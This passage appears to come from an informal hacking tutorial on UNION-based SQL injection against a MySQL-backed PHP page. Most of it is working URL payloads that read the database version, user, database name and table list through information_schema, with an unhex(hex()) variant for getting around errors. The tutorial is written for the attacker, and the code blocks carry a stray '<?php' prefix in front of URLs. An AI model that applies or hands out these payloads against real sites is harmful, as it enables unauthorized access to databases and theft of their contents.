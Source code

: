 So, what we do is replace 1(which is the replaceable part) with @@version i.e. we do as below:

```
<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+@@version,2/*  
```
or
```
<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+version(),2/*  
```
So, this would return the version of MySQL running on the server.

But, sometimes u may get error with above query. If that is the case, do use of unhex(hex()) function like this:
```
<?php 
site.com/article.php?id=UNION+ALL+SELECT+unhex(hex(@@version)),2/*  
```

Remember that if u have to use unhex(hex()) function here, u will also have to use this function in the injection process later on.

@@version will give u the version. It may be either 4(or below) or 5 & above. I m now going to discuss the injection process for version 5 and 4 separately coz as I said earlier, version 5 makes it easy for us to perform the injection.

Quick note: Also, you may check for user, database,etc.. by using following:

```<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+user(),2/* 
site.com/article.php?id=5+UNION+ALL+SELECT+database(),2/*  
```
#### 0x05.e ~ MySQL 5 or above injection
Here, I m gonna show u how to access data in the server running MySQL 5 or above.

U got MySQL version 5.0.27 standard using the @@version in url parameter. MySQL from version 5 has a useful function called information_schema. This is table that holds information about the tables and columns present in the DB server. That is, it contains name of all tables and columns of the site.

For getting table list, we use: 

`table_name from information_schema.tables`

For getting column list, we use: 

`column_name from information_schema.columns`

So our query for getting the table list in our example would be:

```
<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+table_name,2+FROM+information_schema.tables/*  
```

And yeah if u had to use unhex(hex()) while finding version, u will have to do:

```
<?php 
site.com/article.php?id=5+UNION+ALL+SELECT+unhex(hex(table_name)),2+FROM+information_schema.tables/*  
```
